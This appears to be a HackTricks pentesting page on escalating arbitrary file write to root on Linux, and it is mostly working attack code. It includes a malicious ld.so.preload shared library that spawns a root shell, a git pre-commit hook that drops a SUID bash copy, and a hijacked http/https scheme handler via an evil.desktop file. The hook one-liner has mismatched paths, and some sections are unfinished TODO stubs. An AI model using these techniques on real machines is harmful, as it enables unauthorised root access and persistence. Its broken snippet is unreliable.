 # Arbitrary File Write to Root

{{#include ../../banners/hacktricks-training.md}}

### /etc/ld.so.preload

This file behaves like **`LD_PRELOAD`** env variable but it also works in **SUID binaries**.\
If you can create it or modify it, you can just add a **path to a library that will be loaded** with each executed binary.

For example: `echo "/tmp/pe.so" > /etc/ld.so.preload`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unlink("/etc/ld.so.preload");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
//cd /tmp
//gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

### Git hooks

[**Git hooks**](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) are **scripts** that are **run** on various **events** in a git repository like when a commit is created, a merge... So if a **privileged script or user** is performing this actions frequently and it's possible to **write in the `.git` folder**, this can be used to **privesc**.

For example, It's possible to **generate a script** in a git repo in **`.git/hooks`** so it's always executed when a new commit is created:

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/b' > pre-commit
chmod +x pre-commit
```

### Cron & Time files

TODO

### Service & Socket files

TODO

### binfmt_misc

The file located in `/proc/sys/fs/binfmt_misc` indicates which binary should execute whic type of files. TODO: check the requirements to abuse this to execute a rev shell when a common file type is open.

### Overwrite schema handlers (like http: or https:)

An attacker with write permissions to a victim's configuration directories can easily replace or create files that change system behavior, resulting in unintended code execution. By modifying the `$HOME/.config/mimeapps.list` file to point HTTP and HTTPS URL handlers to a malicious file (e.g., setting `x-scheme-handler/http=evil.desktop`), the attacker ensures that **clicking any http or https link triggers code specified in that `evil.desktop` file**. For example, after placing the following malicious code in `evil.desktop` in `$HOME/.local/share/applications`, any external URL click runs the embedded command:

```bash
[Desktop Entry]
Exec=sh -c 'zenity --info --title="$(uname -n)" --text="$(id)"'
Type=Application
Name=Evil Desktop Entry
```

For more info check [**this post**](https://chatgpt.com/c/67fac01f-0214-8006-9db3-19c40e45ee49) where it was used to exploit a real vulnerability.

{{#include ../../banners/hacktricks-training.md}}



